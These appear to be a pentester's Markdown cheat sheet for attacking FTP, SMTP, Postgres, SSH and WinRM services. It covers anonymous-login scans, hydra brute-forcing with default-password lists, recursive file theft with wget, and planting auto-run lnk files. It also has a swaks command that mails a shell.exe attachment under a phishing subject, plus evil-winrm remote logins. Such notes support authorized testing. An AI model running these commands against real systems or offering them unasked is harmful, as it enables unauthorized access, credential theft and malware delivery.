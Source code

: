 ## ftp
- try authenticate using **anonymous** and **ftp**
    - `nmap -n --script ftp-anon -p21 -iL hosts.txt -oX ftp_anon_results.txt`
- brute common credentials 
    * ftp-brute.nse
    * https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt
    * hydra
- ftp server exploits

### post ftp
- download files recursively
    `wget -m ftp://$user:$pass@$target/`
    `wget -m --no-passive-ftp ftp://$user:$pass@$target/`
- upload lnk auto exe
- upload modified version of script

## SMTP
- look for vulnerabilities in the server version
- enumerate users with VRFY
- try send emails without creds
- with a credential, it is possible to use `swaks` to send emails
    * `swaks -t recipient@target.com --from attacker@target.com --attach shell.exe --server $SMTP_SERVER --body @body.txt --header "Subject: Update your informations" --suppress-data -ap`

## postgres (5432)
- bruteforce wordlists
    - `./Default-Credentials/postgres-betterdefaultpasslist.txt`
    - kong:kong
    - kong@$HOST:kong
    - kong:kongpass
    - kong:KongFTW

## ssh
- if password enabled, try brute with common credentials and/or password spraying
    - `hydra -l root -P passwords.txt -s 2222 ssh://1.2.3.4`
    - https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt
    - https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/top-20-common-SSH-passwords.txt
- ssh server exploits
- TODO: check ssh MitM *https://book.hacktricks.xyz/network-services-pentesting/pentesting-ssh#ssh-mitm*

## winrm
- it reminds ssh
- the user needs to be on the **Remote Management Users** or **Administrators** group.
- linux: `evil-winrm -i $TARGET -u $USER -p $PASSWORD`
- windows: `winrs -r:$TARGET -u:$USER -p:$PASSWORD "calc"`
